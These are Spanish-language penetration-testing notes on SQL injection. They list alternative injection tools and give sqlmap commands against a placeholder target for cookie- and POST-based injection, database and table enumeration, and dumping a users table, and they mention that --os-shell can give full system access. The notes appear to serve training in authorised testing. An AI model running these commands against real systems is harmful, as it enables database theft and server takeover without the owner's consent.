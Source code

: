 
## 4. Herramientas Adicionales para SQL Injection

### Alternativas a SQLMap:
- **Mole** - https://sourceforge.net
- **jSQL Injection** - https://github.com
- **NoSQLMap** - https://github.com  
- **Havij** - https://github.com
- **blind_sql_bitshifting** - https://github.com

---

## Notas Importantes

### Consideraciones de Seguridad:
- Siempre usar estas técnicas solo en entornos autorizados
- Documentar todos los hallazgos encontrados
- Las cookies de sesión son críticas para mantener la autenticación

### Tips Prácticos:
- Anotar siempre la URL completa cuando se encuentra una vulnerabilidad
- Las cookies deben copiarse exactamente como aparecen
- Usar `sudo su` para permisos de root cuando sea necesario
- El parámetro `--os-shell` en SQLMap puede proporcionar acceso completo al sistema

---

> Última actualización: 15 sept 2025

### SQLMAP
**Objetivo:** Detección y explotación de SQL injection.

**Entorno:** Parrot OS

```bash
# Básico con GET parameter
sqlmap -u "http://target.com/page.php?id=1"

# Con cookie de sesión
sqlmap -u "http://target.com/page.php" --cookie="PHPSESSID=abc123"

# POST data
sqlmap -u "http://target.com/login.php" --data="user=admin&pass=test"

# Enumerar bases de datos
sqlmap -u "target_url" --dbs

# Enumerar tablas
sqlmap -u "target_url" -D database_name --tables

# Dump data
sqlmap -u "target_url" -D database_name -T users --dump
```

---